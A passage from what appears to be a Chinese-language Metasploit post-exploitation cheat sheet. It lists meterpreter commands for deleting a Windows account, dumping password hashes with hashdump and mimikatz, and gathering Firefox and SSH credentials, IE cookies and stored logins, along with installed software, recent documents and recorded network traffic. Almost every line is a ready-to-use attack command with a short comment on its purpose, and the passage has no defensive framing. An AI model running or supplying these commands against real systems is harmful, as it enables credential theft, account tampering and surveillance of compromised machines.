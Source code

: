 ```bash
#删除指定账号
run post/windows/manage/delete_user USERNAME=admin
```

### 4. 口令破解

```bash
# 在system权限的meterpreter中执行
use post/windows/gather/hashdump
set session 1
exploit
# 结果保存在tmp目录下

use post/windows/gather/smart_hashdump
set session 1
exploit

#格式
用户名称 : RID : LM-HASH 值 :  NT-HASH 值
```

```bash
#Hashdump使用的是mimikatz的部分功能
Load mimikatz

#wdigest 、kerberos 、msv 、ssp 、tspkg 、livessp
mimikatz_command -h
mimikatz_command -f a::   #查询有哪些模块
mimikatz_command -f samdump::hashes
mimikatz_command -f samdump::bootkey
```

### 5. other

```bash
#确定目标主机是否是虚拟机 ：
run checkvm

#获取目标主机上的软件安装信息 ：
run post/windows/gather/enum_applications

#获取目标主机上最近访问过的文档 、链接信息：
run  post/windows/gather/dumplinks

#查看目标环境信息：
run post/multi/gather/env

#查看firefox中存储的账号密码 ：
run post/multi/gather/firefox_creds

#查看ssh账号密码的密文信息 ，证书信息：
run post/multi/gather/ssh_creds

# 查看目标系统所有网络流量并且进行数据包记录：
# -i 指定记录数据包的网卡
run packetrecorder -i 0    

#读取目标主机IE浏览器cookies等缓存信息 ，嗅探目标主机登录过的各类账号密码：
run post/windows/gather/enum_ie

#获取到的目标主机上的ie浏览器缓存历史记录和cookies信息等都保存到了攻击主机本地的/root/.msf4/loot/目录下
```
